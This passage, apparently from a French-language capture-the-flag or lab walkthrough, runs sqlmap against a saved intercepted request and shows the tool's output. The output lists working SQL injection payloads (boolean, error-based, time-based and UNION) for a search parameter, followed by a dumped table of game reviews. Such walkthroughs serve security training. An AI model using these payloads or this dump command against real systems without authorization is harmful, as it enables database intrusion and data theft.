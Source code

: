 On la sauvegarde dans un fichier texte `req.txt` et on lance `sqlmap` :

- `-r` utilise la demande interceptée que vous avez sauvegardée précédemment
- `--dbms` indique à SQLMap de quel type de système de gestion de base de données il s'agit
- `--dump` tente de produire la base de données complète

```sh
kali@kali:~/Documents$ sqlmap -r req.txt --dbms=mysql --dump
sqlmap identified the following injection point(s) with a total of 89 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-1974' OR 7217=7217#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=GAME' AND GTID_SUBSET(CONCAT(0x7171767a71,(SELECT (ELT(9920=9920,1))),0x7162717671),9920)-- VwYa

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=GAME' AND (SELECT 4981 FROM (SELECT(SLEEP(5)))DJPW)-- EtPq

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=GAME' UNION ALL SELECT NULL,NULL,CONCAT(0x7171767a71,0x556b6c517047524b5a746d456d6473427159776563584c4b53666a7558656e414857775646496c71,0x7162717671)#
---

Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```
